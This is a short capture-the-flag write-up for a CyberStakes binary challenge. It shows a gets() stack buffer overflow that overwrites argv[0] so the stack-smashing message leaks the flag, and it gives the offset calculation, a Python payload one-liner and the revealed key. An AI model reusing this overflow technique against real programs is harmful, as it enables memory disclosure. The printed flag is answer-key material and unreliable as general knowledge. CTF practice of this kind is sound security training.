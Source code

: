 ## ARGV[0] [110]

## Solution
Using `gdb` to examine the stack after the call to `gets()`, we can see that `argv[0]` is at address `0xffffcf94` and the start of the buffer read in from `gets()` is at `0xffffce9c`. This means that you must pad `0xffffcf94` - `0xffffce9c` = `0xf8` = 248 bytes to overwrite `argv[0]` with the address of `flag`, which is read in from an absolute path `/home/problems/a3cd0963ad6889bdf9863ee46fca32f0/argv-0-_8/flag.txt` on the CyberStakes server to `.data` address `0x0804a080`:
```
ameise@shell:~$ cd /home/problems/a3cd0963ad6889bdf9863ee46fca32f0/argv-0-_8
ameise@shell:/home/problems/a3cd0963ad6889bdf9863ee46fca32f0/argv-0-_8$ ls
argv0  flag.txt
ameise@shell:/home/problems/a3cd0963ad6889bdf9863ee46fca32f0/argv-0-_8$ python -c 'print "a"*248 + "\x80\xa0\x04\x08"' | ./argv0 
The contents of the file are in memory. Can you leak them?
*** stack smashing detected ***: 0fd5c4f2abcc7c48534f0fc395629f89 terminated
Aborted
```

The key is `0fd5c4f2abcc7c48534f0fc395629f89`.